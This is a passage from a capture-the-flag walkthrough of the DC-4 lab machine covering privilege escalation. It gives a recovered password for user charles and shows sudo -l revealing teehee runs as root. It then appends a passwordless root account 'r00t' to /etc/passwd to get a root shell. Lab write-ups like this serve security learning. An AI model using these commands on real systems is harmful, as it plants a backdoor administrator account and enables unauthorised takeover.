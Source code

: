 *Here we found password for charles*

*Password- ^xHhA&hvim0y*

## Privilege Escalation

*Login in charles*

**su charles**

*Checking sudo rights for charles*

**sudo -l**

*It is running teehee as root without password*

![DC%204%20Walkthrough%2072c70f49bd45404a9f45f02276b567cb/Untitled%2014.png](DC%204%20Walkthrough%2072c70f49bd45404a9f45f02276b567cb/Untitled%2014.png)

![DC%204%20Walkthrough%2072c70f49bd45404a9f45f02276b567cb/Untitled%2015.png](DC%204%20Walkthrough%2072c70f49bd45404a9f45f02276b567cb/Untitled%2015.png)

**echo "r00t::0:0:::/bin/bash" | sudo teehee -a /etc/passwd**

*Added user r00t into /etc/passwd*

![DC%204%20Walkthrough%2072c70f49bd45404a9f45f02276b567cb/Untitled%2016.png](DC%204%20Walkthrough%2072c70f49bd45404a9f45f02276b567cb/Untitled%2016.png)

*Login to r00t*

**su r00t**

*We got shell for root user*

**cd /root**
